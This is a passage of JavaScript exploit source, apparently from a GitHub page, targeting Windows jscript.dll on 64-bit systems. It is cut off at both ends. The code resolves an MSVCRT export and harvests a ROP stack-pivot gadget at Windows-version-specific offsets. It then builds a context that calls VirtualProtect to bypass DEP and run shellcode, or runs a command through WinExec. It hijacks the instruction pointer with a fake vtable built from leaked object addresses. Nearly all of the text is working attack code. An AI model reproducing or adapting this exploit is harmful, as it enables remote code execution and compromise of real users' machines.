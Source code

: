             // Dynamically resolve ROP gadget for stack pivot via export hint

            var StackPivotAddress;
            var HintExportAddress = ResolveExport64(MsvcrtBase, [ 0x686e6174, 0x00000066 ]); // tanhf
            var MagicOffset;

            if(!HintExportAddress.low && !HintExportAddress.high) {
                DebugLog("Failed to resolve address of MSVCRT.DLL!tanhf");
                return 0;
            }

            if(WindowsVersion <= 7) {
                MagicOffset = 0x2da + 1; // tanhf:0x00076450 (+0x2da) <- 0x0007672a -> (+0x3e5e) ??_7bad_cast@@6B@:0x0007a588
            }
            else {
                MagicOffset = 0x11f + 19; // tanhf:0x00019a90 (+0x11f) <- 0x00019baf -> (+0x31) acosf:0x00019be0
            }

            // 49:8BE3 | mov rsp,r11
            // C3      | ret

            StackPivotAddress = HarvestGadget64(HintExportAddress, 0x500, 0xC3E38B49, 0x00000000FFFFFFFF, MagicOffset);

            if(!StackPivotAddress.low && !StackPivotAddress.high) {
                DebugLog("Failed to resolve address of stack pivot gadget");
                return 0;
            }

            DebugLog("Gadget address of stack pivot: 0x" + StackPivotAddress.high.toString(16) + StackPivotAddress.low.toString(16));
            Context = MakeContextDEPBypass64(LeakedStackPtr, ArtificialStackAddress, StackPivotAddress, VirtualProtectAddress, ShellcodeAddress, ShellcodeLen, WritableAddress);
            DebugLog("Artificial stack pointer address at 0x" + ArtificialStackAddress.high.toString(16) + " " + ArtificialStackAddress.low.toString(16) +" shellcode at 0x" + ShellcodeAddress.high.toString(16) + ShellcodeAddress.low.toString(16) + " CONTEXT pointer: 0x" + FakeObjAddress.high.toString(16) + FakeObjAddress.low.toString(16));
        }
        else if(PayloadType == "winexec") {
            CommandStr = CommandStr.substr(0, CommandStr.length);
            var CommandStrAddress = LeakObjectAddress64(LeakedVvalAddress, CommandStr);
            Context = MakeContextWinExec64(CommandStrAddress, LeakedStackPtr, WinExecAddress);
        }

        var RipHijackPropName = CreateVar64(0x81, LeakedVvalAddress.low + 96, LeakedVvalAddress.high, 0, 0) + CreateVar64(0, FakeVtableAddress.low, FakeVtableAddress.high, 0, 0) + Context; // 96 is the 64-bit prop name offset plus size of mutable VAR and next VAR Type field.

        /*

        jscript.dll!Object.Typeof method

        mov rdi,qword ptr ds:[rdi+8]
        mov rax,qword ptr ds:[rdi]
        mov rbx,qword ptr ds:[rax+138]
        mov rcx,rbx
        call qword ptr ds:[7FFA554EC628]
        mov rcx,rdi
        call rbx
